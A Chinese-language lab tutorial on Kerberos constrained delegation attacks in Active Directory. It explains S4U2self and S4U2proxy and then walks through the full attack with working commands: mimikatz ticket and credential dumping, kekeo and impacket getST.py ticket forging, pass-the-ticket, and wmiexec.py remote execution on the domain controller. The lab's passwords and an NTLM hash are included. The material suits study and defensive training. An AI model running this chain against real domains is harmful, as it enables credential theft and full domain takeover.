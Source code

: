 # 约束委派攻击

#### 3.1 原理概述

##### 3.1.1 约束委派

​		约束委派（Constrained Delegation, CD）：由于非约束委派的不安全性，微软在Windows Server 2003中发布了约束性委派。对于约束性委派（Constrained Delegation），即 Kerberos 的两个扩展子协议 S4u2self (Service for User to Self) 和 S4u2Proxy (Service for User to Proxy)，服务账户只能获取用户的 ST （Service Ticket），从而只能模拟用户访问特定的服务。

​	配置了约束性委派的账户，其两个属性会被设置：

- 账户userAccountControl属性会被设置为TRUSTED_TO_AUTH_FOR_DELEGATION标志位，其值为16781312
- 账户的msDS-AllowedToDelegateTo属性，添加允许委派的服务

约束委派分为两种：

- 仅使用Kerberos，无法协议转换
- 使用任何身份验证协议

##### 3.1.2 S4u2self 与 S4U2proxy 协议

**S4u2self** ：允许服务代表任意用户请求访问自身服务的 ST 服务票据。

 **S4U2proxy**：允许服务在已取得可转发的 ST 服务票据下代表任意用户获取另一个服务的 ST 服务票据。约束委派限制了S4U2proxy协议的请求范围，使得配置了委派属性的服务只能模拟用户身份访问特定的其他服务。

​		简单来说S4u2self协议使用用户的 TGT 向 KDC 请求用户的可转发的服务票据 ST1，而后 S4U2proxy 协议用这张 ST1 去发起请求用于访问服务器的服务票据 ST2 。

##### 3.1.3 攻击原理

​	约束性委派攻击的关键就是获得可转发的服务票据 ST，获取根据约束性委派的执行过程可知，只要控制配置约束性委派服务的机器，并获得了机器账户的密码或Hash等凭证，那么就可以劫持这台主机的kerberos 请求过程，最终获得任意用户权限的 ticket。

#### 3.2 复现

##### 3.2.3 实验环境

DC（Windows Server 2012）：192.168.12.143 [域控]

Server（Windows Server 2008）：192.168.12.138 [普通域服务器]

域：woniu.com

域管理员：woniu\administrator  123456

Sever的本地管理员：server\administrator p-0p-0p-0

普通域用户（已添加SPN属性）：web p-0p-0p-0

```
setspn -A https/web web
```



- DC：设置机器账户的约束性委派，配置此机器账户提供 dc 的 cifs 服务的委派凭据。（服务账户同理）

  ![image-20230309210359873](https://s2.loli.net/2023/03/11/4i3qc5kKnwvDsTt.png)

- server：使用 ADFind 查询配置了约束委派机器账户（主机）

  ```
  AdFind.exe -b "DC=woniu,DC=com" -f "(&(samAccountType=805306369)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto
  ```

  ![image-20230309212156029](https://s2.loli.net/2023/03/11/8YHEmGduhxr5Z4j.png)

- 使用 ADFind 查询配置了约束委派服务账户

  ```
  AdFind.exe -b "DC=woniu,DC=com" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto
  ```

  ![image-20230309212320917](https://s2.loli.net/2023/03/11/aDBh2bGIoAvwCu6.png)

##### 3.2.3 获取机器账户的票据进行利用

利用条件：

- 获取一台域内服务器或主机的本地管理员权限
- 该台域内主机的机器账户配置了约束性委派

1. 登录域内服务器（Server）的本地管理员账户，在具有管理员权限的cmd中运行mimikatz，并导出票据。

   ```
   mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit"
   ```

   ![image-20230309213116486](https://s2.loli.net/2023/03/11/7go2nNPXIvHiGwd.png)

   导出结果如下，找到对应机器账户 server 的票据 [0;3e7]-2-1-40e10000-SERVER$@krbtgt-woniu.COM.kirbi 。

   ![image-20230309213306891](https://s2.loli.net/2023/03/11/VWD5X1aO4omng9f.png)

2. 使用kekeo.exe工具申请服务票据（通过S4U2Proxy协议）。

   kekeo是一款开源的票据传递工具，kekeo指定域名、用户名、NTLM哈希来生成对应票据。这里我们通过S4U2Proxy协议获取域管理员的访问域控的cifs服务权限的票据。

   ```
   kekeo.exe "tgs::s4u /tgt:[0;3e7]-2-1-40e10000-SERVER$@krbtgt-WONIU.COM.kirbi /user:Administrator@woniu.com /service:cifs/dc.woniu.com" "exit"
   ```

   ![image-20230309214026639](https://s2.loli.net/2023/03/11/H8LlCpPscFOuAKM.png)

   获取到对应的票据，我们需要的是 cifs 的票据（第一个）。

   ![image-20230309214055866](https://s2.loli.net/2023/03/11/jzFwKCUJgyV15lu.png)

3. 导入票据前，访问 dc 的 c 盘，失败。

   ![image-20230309214151271](https://s2.loli.net/2023/03/11/zIdar3uNy27pnUC.png)

4. 使用mimikatz导入对应票据。

   ```
   mimikatz.exe "kerberos::ptt TGS_Administrator@woniu.com@woniu.COM_cifs~dc.woniu.com@woniu.COM.kirbi" "exit"
   ```

   ![image-20230309214302778](https://s2.loli.net/2023/03/11/nSTRiZwF5rCq2et.png)

5. 再次访问 dc 的 c 盘，成功获取。

   ```
   dir \\dc\c$
   ```

   ![image-20230309214318498](https://s2.loli.net/2023/03/11/rJPw2nR87etulMA.png)

##### 3.2.3 获取机器账户的 Hash 进行利用

1. 登录域内服务器（Server）的本地管理员账户，在具有管理员权限的cmd中运行mimikatz，并导出票据。

   ```
   mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
   ```

   ![image-20230309215721951](https://s2.loli.net/2023/03/11/j2SemsovYRItw95.png)

   ```
   b51f62a652519749961648e18682a976
   ```

2. 通过获取到的机器账户的NTLM hash ，在 kali 上使用 impacket 工具包的getST.py进行域管理员票据的获取。

   （若没有对应脚本可自行下载，https://github.com/fortra/impacket/tree/master/examples）

   ```
   python3 /tmp/getST.py -dc-ip 192.168.12.143 -spn CIFS/dc.woniu.com -impersonate administrator woniu.com/SERVER$ -hashes :b51f62a652519749961648e18682a976
   ```

   ![image-20230309215808768](https://s2.loli.net/2023/03/11/YzKFanETtVxWRg9.png)

3. 在 /etc/hosts 中添加对应 dc 域名的记录，因为后续利用使用的工具需要用域名的方式访问。

   ```
   192.168.12.143 dc.woniu.com
   ```

4. 通过获取到的域管理员的票据（ST） ，在 kali 上使用 impacket 工具包的wmiexec.py进行域控远程登录。

   ```
   KRB5CCNAME=administrator.ccache python3 /tmp/wmiexec.py -k woniu.com/administrator@dc.woniu.com -dc-ip 192.168.12.143 
   ```

   ![image-20230309220151770](https://s2.loli.net/2023/03/11/WRBA63ifMIhmkrC.png)

